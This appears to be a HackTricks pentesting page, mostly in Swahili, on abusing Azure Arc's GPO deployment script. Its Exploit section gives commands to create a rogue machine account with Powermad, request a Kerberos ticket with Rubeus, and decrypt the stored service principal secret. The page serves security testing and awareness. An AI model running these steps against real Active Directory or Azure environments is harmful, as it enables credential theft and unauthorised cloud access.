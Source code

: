# Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Kutambua Masuala

Azure Arc inaruhusu kuunganishwa kwa seva mpya za ndani (seva zilizounganishwa kwenye kikoa) ndani ya Azure Arc kwa kutumia mbinu ya Group Policy Object. Ili kuwezesha hili, Microsoft inatoa zana ya kutekeleza inayohitajika kwa ajili ya kuanzisha mchakato wa kuingiza. Ndani ya faili ya ArcEnableServerGroupPolicy.zip, skripti zifuatazo zinaweza kupatikana: DeployGPO.ps1, EnableAzureArc.ps1, na AzureArcDeployment.psm1.

Wakati inatekelezwa, skripti ya DeployGPO.ps1 inafanya hatua zifuatazo:

1. Inaunda Azure Arc Servers Onboarding GPO ndani ya kikoa cha ndani.
2. Inakopya skripti ya kuingiza ya EnableAzureArc.ps1 kwenye sehemu ya mtandao iliyotengwa kwa ajili ya mchakato wa kuingiza, ambayo pia ina pakiti ya kusakinisha ya Windows.

Wakati wa kuendesha skripti hii, wasimamizi wa mfumo wanahitaji kutoa vigezo viwili vikuu: **ServicePrincipalId** na **ServicePrincipalClientSecret**. Aidha, inahitaji vigezo vingine kama vile kikoa, FQDN ya seva inayohifadhi sehemu hiyo, na jina la sehemu hiyo. Maelezo zaidi kama vile kitambulisho cha mpangaji, kundi la rasilimali, na taarifa nyingine muhimu lazima pia zipewe skripti.

Siri iliyosimbwa inaundwa katika saraka ya AzureArcDeploy kwenye sehemu iliyotajwa kwa kutumia usimbaji wa DPAPI-NG. Siri iliyosimbwa inahifadhiwa katika faili inayoitwa encryptedServicePrincipalSecret. Ushahidi wa hili unaweza kupatikana katika skripti ya DeployGPO.ps1, ambapo usimbaji unafanywa kwa kuita ProtectBase64 na $descriptor na $ServicePrincipalSecret kama ingizo. Maelezo ya descriptor yanajumuisha SID za Kundi la Kompyuta za Kikoa na Kundi la Wakala wa Kikoa, kuhakikisha kwamba ServicePrincipalSecret inaweza kusimbwa tu na Vikundi vya Usalama vya Wakala wa Kikoa na Kompyuta za Kikoa, kama ilivyotajwa katika maoni ya skripti.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Tuna masharti yafuatayo:

1. Tumefanikiwa kuingia kwenye mtandao wa ndani.
2. Tuna uwezo wa kuunda au kudhibiti akaunti ya kompyuta ndani ya Active Directory.
3. Tumegundua sehemu ya mtandao inayoshikilia saraka ya AzureArcDeploy.

Kuna njia kadhaa za kupata akaunti ya mashine ndani ya mazingira ya AD. Moja ya njia maarufu ni kutumia quota ya akaunti ya mashine. Njia nyingine inahusisha kuathiri akaunti ya mashine kupitia ACLs dhaifu au mipangilio mingine mbalimbali isiyo sahihi.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Mara tu akaunti ya mashine imepatikana, inawezekana kuthibitisha kwa kutumia akaunti hii. Tunaweza ama kutumia amri ya runas.exe na bendera ya netonly au kutumia pass-the-ticket na Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Kwa kuwa na TGT ya akaunti yetu ya kompyuta iliyohifadhiwa kwenye kumbukumbu, tunaweza kutumia skripti ifuatayo kufungua siri ya huduma ya msingi.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternately, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Katika hatua hii, tunaweza kukusanya taarifa zilizobaki zinazohitajika kuungana na Azure kutoka kwa faili la ArcInfo.json, ambalo limehifadhiwa kwenye sehemu ile ile ya mtandao kama faili la encryptedServicePrincipalSecret. Faili hii ina maelezo kama: TenantId, servicePrincipalClientId, ResourceGroup, na mengineyo. Pamoja na taarifa hizi, tunaweza kutumia Azure CLI kuthibitisha kama huduma ya msingi iliyovunjika.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
